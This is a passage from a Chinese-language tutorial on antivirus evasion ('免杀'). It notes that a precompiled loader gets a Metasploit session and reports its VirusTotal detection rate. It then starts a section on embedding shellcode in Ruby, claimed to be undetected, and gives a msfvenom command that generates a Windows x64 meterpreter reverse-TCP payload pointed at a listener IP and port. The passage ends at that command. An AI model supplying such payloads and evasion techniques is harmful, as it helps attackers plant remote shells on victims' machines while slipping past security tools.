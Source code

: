 
msf中可上线

![ed7e522540cda0e7c2d5d66edca2ea96](images/2020.05-bypass-07/11.png)

virustotal.com上`gsl64.exe`查杀率为6/71，因为这个gsl是编译好的，没法自己编译，估计越来越多的杀软都能开始查杀。

![40c16cb7d332a36da5a513ef9ef5b14c](images/2020.05-bypass-07/12.png)


# 2 Ruby加载shellcode

## 2.1 Ruby加载shellcode介绍

Ruby做免杀的不是很多，目前好像只遇到专题5中介绍的veil使用了ruby编译exe来进行免杀，目前也没发现基于ruby的shellcode加载器，只找到了一种ruby嵌入shellcode的代码。

## 2.2 Ruby嵌入shellcode(VT查杀率0/58)

先用Msfvenom生成基于ruby的shellcode

```
msfvenom -p windows/x64/meterpreter/reverse_tcp  LHOST=10.211.55.2 LPORT=3333 -f ruby
```
